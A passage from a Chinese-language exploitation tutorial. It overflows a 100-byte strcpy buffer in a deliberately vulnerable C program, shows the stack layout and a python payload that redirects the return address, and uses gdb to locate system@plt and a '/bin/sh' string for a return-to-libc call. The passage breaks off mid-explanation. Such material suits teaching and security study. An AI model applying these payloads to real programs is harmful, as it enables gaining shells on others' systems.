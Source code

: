 因为我们想要覆盖返回地址，所以我们提供0x6c字节来填充缓冲区，4字节来替换旧的%ebp，从而指向我们想指向的地址：

```
| 0x8048444 <not_called>     |
| 0x42424242 <fake old %ebp> |
| 0x41414141 ...             |
|   ... (0x6c bytes of 'A's) |
|   ... 0x41414141           |
```

在shell中测试的结果如下：

```c
$ ./a.out "$(python -c 'print "A"*0x6c + "BBBB" + "\x44\x84\x04\x08"')"
Enjoy your shell!
$ 
```

# 2、调用参数

现在我们可以返回到一个任意的函数，我们希望能够传递任意的参数。我们将利用下面这个简单的程序

```c
char* not_used = "/bin/sh";

void not_called() {
    printf("Not quite a shell...\n");
    system("/bin/date");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

这一次，我们不能简单地返回到not_called函数。相反，我们希望使用正确的参数调用system。首先，我们使用gdb打印出我们需要的值:

```c
$ gdb -q a.out
Reading symbols from /home/ppp/a.out...(no debugging symbols found)...done.
(gdb) pring 'system@plt'
$1 = {<text variable, no debug info>} 0x8048360 <system@plt>
(gdb) x/s not_used
0x8048580:   "/bin/sh"
```

为了使用参数not_used调用系统，我们必须设置堆栈。在系统被调用后，它期望堆栈是这样的:

```
| <argument>       |
| <return address> |
```
